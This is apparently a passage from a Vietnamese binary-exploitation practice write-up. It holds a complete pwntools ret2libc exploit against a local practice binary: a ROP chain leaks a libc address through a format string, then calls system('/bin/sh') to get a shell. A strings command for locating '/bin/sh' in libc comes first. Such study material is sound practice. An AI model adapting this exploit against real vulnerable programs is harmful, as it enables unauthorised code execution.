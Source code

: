 ```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/pwn07_rop_ret2libc$ strings -tx /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1d8698 /bin/sh

```

> #### Ta có thể sử dụng Onegadget nếu thỏa các registers

## Exploit 1

```python
from pwn import *

r = process("./something")
gdb.attach(r, api= True)

print(r.recvuntil(b"something : "))

gets = 0x401090
printf = 0x401080
pop_rdi_ret = 0x00000000004012a3
format_string = 0x404500
ret_gadget = 0x000000000040101a
stdin_func_offset_of_libc = 0x0000000000219aa0
vuln_func_address = 0x00000000004011dd
system_func_offset = 0x0000000000050d60
binsh_string_offset = 0x1d8698

payload = b"A"*40 + p64(ret_gadget) +p64(pop_rdi_ret) + p64(format_string) +p64(gets)
payload += p64(ret_gadget) + p64(pop_rdi_ret) + p64(format_string) +p64(printf)
payload += p64(ret_gadget) + p64(vuln_func_address)
r.sendline(payload)

payload = b"%3$p"
r.sendline(payload)

output = r.recvuntil(b"something : ")
print(output)
stdin_address = int(output.split(b"Say")[0],16)

libc_base = stdin_address - stdin_func_offset_of_libc
print(hex(libc_base))

system_address = libc_base + system_func_offset
binsh_string_address =libc_base + binsh_string_offset

payload = b"A"*40 + p64(ret_gadget) + p64(pop_rdi_ret) + p64(binsh_string_address) +p64(system_address)

r.sendline(payload)

r.interactive()

```
